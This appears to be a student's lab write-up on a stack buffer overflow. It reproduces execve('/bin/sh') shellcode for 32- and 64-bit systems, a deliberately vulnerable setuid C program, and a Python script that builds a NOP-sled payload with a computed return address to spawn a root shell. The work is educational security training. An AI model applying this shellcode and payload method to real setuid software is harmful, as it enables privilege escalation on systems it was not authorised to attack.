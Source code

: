 # Work on week #5


## Tasks done

### 1

* The main goal of this task is to understand how to run shellcode and take advantage of it as an attacker.

* We can create shellcode in 2 different versions- in 32 or 64 bits. The main difference between them are the name and number of the registers used on the programs.

* In order to complete this task, we had to compile these file (call_shellcode.c), with the command ```make all```, which will generate the 2 runnable versions:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Binary code for setuid(0) 
// 64-bit:  "\x48\x31\xff\x48\x31\xc0\xb0\x69\x0f\x05"
// 32-bit:  "\x31\xdb\x31\xc0\xb0\xd5\xcd\x80"


const char shellcode[] =
#if __x86_64__
  "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e"
  "\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57"
  "\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05"
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}

```

*  This file pushes store those registers to the code variable and make the pointers to those registers (made by the ```func()```), according to the respective version (32 or 64 bits). Those registers address to the assembly commands needed to execute a shell.

* The ```make all``` has a special flag, the ```-z execstack```, which creates an execution stack to the compiled program. This results in the execution of the commands stored in the registers that were copied in the code variable. In other words, the variable code will be the execution stack.

* After running both executables (a32.out and a64.out), we reached to the same output: we opened a shell. We know that due to the existence of the dollar sign ($) in the terminal, as it is shown below.

![](https://i.imgur.com/T6g88ed.png)

<p> 
    Fig.1- Execution of a32.out and 64.out. Both programs successfully open a shell.
</p>


* In conclusion, if an attacker successfully smashes the call stack, he/she can alter the normal program flow of the vulnerable process and inject this shellcode in order to open a shell code and gain full control of victim's machine, which would be quite dangerous. However, it is essential to execute it the ```-z execstack```, otherwise it won't work (it creates a segmentation fault).


![](https://i.imgur.com/tvilJmV.png)

<p> 
    Fig.2- Execution without the exectack flag
</p>

### 2

The second task is to set up the file to be exploited. For this we are given the c file:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

```

The file has a buffer overflow vunerability in the strcpy command because the function doesn't check for boundaries, that means that if the program is a root owned set-UID file we can feed the function a string that makes it spawn a root shell

For this to be exploitable it is needed for the OS safeguards be turned off and for the the code to be compiled with the following flags ```-z execstack -fno-stack-protector```

### 3

#### Step 1

* In this task our goal is exploit the buffer-overflow vulnerability in the target program.
* We will use a debugger method to find it out and we need to use gdb to debug stack-L1-dbg.

![](https://i.imgur.com/7EVXzdI.png)


<p> 
    Fig.3- Important values to make the attack
</p>
 
#### Step 2

```python
#!/usr/bin/python3
import sys
shellcode= (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
 # ✩ Need to change ✩
).encode(’latin-1’)
# Fill the content with NOP’s
content = bytearray(0x90 for i in range(517))
##################################################################
# Put the shellcode somewhere in the payload
start = 490 # ✩ Need to change ✩
content[start:start + len(shellcode)] = shellcode
# Decide the return address value
# and put it somewhere in the payload
ret = 0xFFFFCB96 #if 32 bits senão 0x48
# ✩ Need to change ✩
offset = 112  #Number of bytes of the buffer in task 2 (???) # ✩ Need to change ✩
L = 4 # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder=’little’)
##################################################################
# Write the content to a file
with open(’badfile’, ’wb’) as f:
f.write(content)
```

* We put our **start** to 490 because the buffer has a size of 517 and our shell has a  size of 27 bytes,so 517-27=490.
* Our **ret** is for change the point to our shellcode.We have a information of the value of buf is 0*ffffc9fc.We do 0*ffffc9fc +490.This sum give us our return address which was 0*ffffcbe6 .
* **Offset** is where we inject out return address thats points to our shellcode.We also know the address of ebp is 0*ffffca68 and the buffer address is 0*ffffc9fc so ebp starts after 108 bytes of edp,but we cannot forget to add more 4 bytes to 108 bytes because of size the edp is 4 bytes.
* Now for test this we open terminal where exploit.py and stack_l1 is located.If we can get access to rootshell so is correct.

![](https://i.imgur.com/K5rpE74.png)



